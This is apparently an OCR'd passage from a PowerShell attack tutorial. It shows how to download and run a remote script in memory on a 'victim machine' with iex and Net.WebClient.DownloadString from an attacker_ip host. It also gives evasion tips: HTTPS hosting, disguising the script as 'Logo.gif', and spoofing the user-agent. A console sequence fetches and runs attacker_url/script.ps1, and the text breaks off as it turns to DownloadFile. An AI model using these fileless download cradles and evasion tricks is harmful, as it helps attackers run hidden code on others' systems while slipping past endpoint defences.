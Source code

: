 Get-Process | Format-List -Property Name,Path

Then from our PowerShell console on the victim machine we can download and call our script using the 
following Invoked-Expression (iex) command: 

iex (New-Object Net.WebClient).DownloadString("http://attacker_ip/Get-ProcessPaths.ps1")


The DownloadString method will execute our remote script in the PowerShell process memory, so in 
regard to not dropping an artifact to disk, its a great way to stay under the radar of endpoint
security solutions that are not monitoring PowerShell memory


# Important: Evasion Tips

It should be noted that where possible when hosting your remote PowerShell script, to have an SSL
Certificate configured on the attacker machine

This helps in evading over-the-wire heuristics as our traffic will go over https and be encrypted

In the previous example, we used http, which could be easily detected


Another trick we can use which might help in evading basic file extension heuristics is to give our 
PowerShell script a different extension, for instance, "Logo.gif" PowerShell will still execute it as
a .ps1 script


It's also important to note that the Net.WebClient class allows us to specify a custom user-agent string
when sending the request to our attacker URL

This can help us evade detection mechanisms that are flagging abnormal user-agent strings crossing the
wire


we can do that with the Headers.Add method


PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $downloader.Headers.Add("user-agent", "Mozilla/5.0" (Windows NT 10.0; Win64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146)
PS C:\> $payload = "http://attacker_url/script.ps1"
PS C:\> $command = $downloader.DownloadString($payload)
PS C:\> Invoke-Expression $command


When we analyze the Net.WebClient GET request we should see that the user-agent string was sent as 
part of it




# Net.WebClient DownloadFile Method

Another Net.WebClient class method we can use is the DownloadFile method, this method will download your
executable to disk
